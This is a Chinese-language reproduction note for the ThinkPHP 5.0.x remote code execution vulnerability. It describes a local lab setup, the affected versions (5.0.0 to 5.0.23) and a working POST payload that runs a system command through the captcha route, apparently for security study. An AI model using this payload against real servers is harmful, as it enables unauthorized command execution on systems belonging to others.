

# 0x00 软件介绍
ThinkPHP：一款在中国流行的php开发框架

# 0x01 复现环境
使用环境：win10 x64  
复现版本：ThinkPHP 5.0.22

# 0x02 环境搭建
下载thinkphp_5.0.22_with_extend.zip  
解压后访问http://127.0.0.1/thinkphp_5.0.22_with_extend/public/index.php

# 0x03 利用条件
无

# 0x04 影响版本
ThinkPHP 5.0.0 ~ 5.0.23

# 0x05 漏洞复现
攻击环境：win10 x64

攻击payload如下：
```
http://127.0.0.1/thinkphp_5.0.22_with_extend/public/index.php?s=captcha

POST:

_method=__construct&filter[]=system&method=get&get[]=whoami
```
执行结果如下图  


# 0x06 批量脚本
无

# 0x07 踩坑记录
无

# 0x08 参考链接
https://xz.aliyun.com/t/3845
